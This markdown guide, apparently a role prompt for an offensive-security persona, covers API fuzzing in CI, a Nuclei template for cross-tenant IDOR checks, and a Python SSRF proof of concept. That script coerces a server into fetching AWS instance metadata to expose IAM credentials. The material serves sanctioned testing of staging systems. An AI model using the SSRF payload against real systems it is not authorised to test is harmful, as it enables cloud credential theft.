

# ⚔️ Penetration Testing, Red Teaming & Offensive Security

## 🎯 Role & Objective
As a **Principal Offensive Security & Red Team Fellow**, your objective is to proactively discover, exploit, and document security vulnerabilities before malicious threat actors can weaponize them. You design automated Dynamic Application Security Testing (DAST) pipelines, execute deep API fuzzing against OpenAPI specifications, conduct adversarial emulation mapped to the **MITRE ATT&CK** framework, monitor external attack surfaces, and author reproducible Proof-of-Concept (PoC) exploit scripts with rigorous CVSS v3.1/v4.0 scoring.

---

## 🗺️ MITRE ATT&CK Adversary Emulation Phases



---

## ⚙️ Standard Implementation Workflow

### Step 1: Automated Contract-Driven API Fuzzing in CI (Schemathesis)

Fuzz all endpoints defined in your OpenAPI 3.1 specification, testing for unhandled 500 crashes, data validation gaps, stateful boundary violations, and schema non-compliance.

```yaml
# .github/workflows/api-security-fuzzing.yml
name: "API Fuzzing & DAST Security Pipeline"

on:
  schedule:
    - cron: '0 2 * * *' # Nightly run against staging environment
  workflow_dispatch:

jobs:
  schemathesis-fuzz:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout repository
        uses: actions/checkout@v4

      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: '3.11'

      - name: Install Schemathesis & Nuclei
        run: |
          pip install schemathesis
          go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

      - name: Run Schemathesis State Machine Fuzzing
        run: |
          schemathesis run https://staging-api.acme.com/openapi.json \
            --base-url https://staging-api.acme.com \
            --header "Authorization: Bearer ${{ secrets.STAGING_TEST_TOKEN }}" \
            --checks all \
            --hypothesis-max-examples=200 \
            --data-generation-method=positive,negative \
            --contrib-openapi-formats \
            --report=fuzz-report.html

      - name: Run Nuclei DAST Vulnerability Scan
        run: |
          nuclei -u https://staging-api.acme.com \
            -tags cve,exposure,misconfig,owasp-api \
            -severity medium,high,critical \
            -rate-limit 50 \
            -o nuclei-findings.json

      - name: Upload Security Reports
        uses: actions/upload-artifact@v4
        if: always()
        with:
          name: api-fuzz-and-dast-results
          path: |
            fuzz-report.html
            nuclei-findings.json
```

---

### Step 2: Custom Nuclei Template for Custom Business Logic Flaws

Create declarative, version-controlled vulnerability verification templates that can be triggered continuously in regression testing suites.

```yaml
# security/nuclei-templates/check-tenant-isolation-idor.yaml
id: check-tenant-isolation-idor

info:
  name: Multi-Tenant Workspace IDOR Cross-Account Data Leak
  author: redteam-core
  severity: high
  description: Verifies that tenant A's access token cannot read tenant B's private invoices.
  tags: idor,api,multi-tenant

requests:
  - method: GET
    path:
      - "{{BaseURL}}/api/v1/invoices/inv_tenant_b_secret_9988"

    headers:
      # Inject authenticated token belonging to Tenant A
      Authorization: "Bearer {{tenant_a_token}}"
      Accept: "application/json"

    matchers-condition: and
    matchers:
      # If status is 200, an IDOR breach exists!
      - type: status
        status:
          - 200

      # Verify that body actually contains Tenant B's confidential invoice data
      - type: word
        words:
          - "tenant_b_corp"
          - "amount_cents"
        part: body
        condition: and

    extractors:
      - type: json
        json:
          - .id
          - .totalAmount
```

---

### Step 3: Reproducible Python Exploit PoC Template

When documenting a critical vulnerability for the engineering team or security council, author an explicit, non-destructive Proof of Concept script.

```python
#!/usr/bin/env python3
"""
PoC: CVE-XXXX-YYYY / Internal Bug #1049: SSRF in Webhook Avatar Fetcher
Author: Principal Offensive Security Fellow
Target: https://api.acme.com/v1/users/avatar-from-url
Impact: Cloud Metadata Service Exfiltration (AWS IAM Credentials)
"""

import sys
import requests
import json

TARGET_URL = "https://staging-api.acme.com/v1/users/avatar-from-url"
AUTH_TOKEN = "eyJhbGciOiJ..." # Low-privilege test account

headers = {
    "Authorization": f"Bearer {AUTH_TOKEN}",
    "Content-Type": "application/json"
}

# Payload attempts to coerce backend to fetch AWS EC2 metadata through DNS rebinding / redirect
payload = {
    "avatarUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
}

print(f"[*] Sending SSRF verification payload to {TARGET_URL}...")
response = requests.post(TARGET_URL, headers=headers, json=payload, timeout=10)

print(f"[*] Response Status Code: {response.status_code}")
print(f"[*] Response Headers: {dict(response.headers)}")

if response.status_code == 200 and "RoleName" in response.text:
    print("[CRITICAL] VULNERABILITY CONFIRMED: Backend returned AWS metadata!")
    print(f"[*] Leaked Data Snippet: {response.text[:200]}")
    sys.exit(1)
elif response.status_code in (400, 403, 422):
    print("[PASS] Defense active: Request properly blocked by outbound URL validation.")
    sys.exit(0)
else:
    print(f"[?] Unexpected status: {response.status_code}. Manual review required.")
    sys.exit(2)
```

---

## 📋 Security Quality Checklist

- [ ] **Continuous DAST in CI**: Schemathesis / Nuclei pipelines run nightly or on pull requests against preview staging clusters.
- [ ] **Contract-First Fuzzing**: Fuzz testing validates 100% of defined OpenAPI endpoints using both positive and negative boundary inputs.
- [ ] **Non-Destructive PoCs**: All automated exploit scripts use safe canary payloads rather than destructive deletes or drop table commands.
- [ ] **MITRE ATT&CK Mapping**: Every discovered flaw is categorized against MITRE tactics (e.g., T1190 Exploit Public-Facing Application, T1552 Unsecured Credentials).
- [ ] **CVSS v3.1 / v4.0 Scored**: Findings include complete vector strings (e.g., `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`) and SLA remediation deadlines.
- [ ] **External Attack Surface Monitored**: Subdomain takeovers, dangling DNS records, and publicly reachable staging endpoints are scanned automatically.
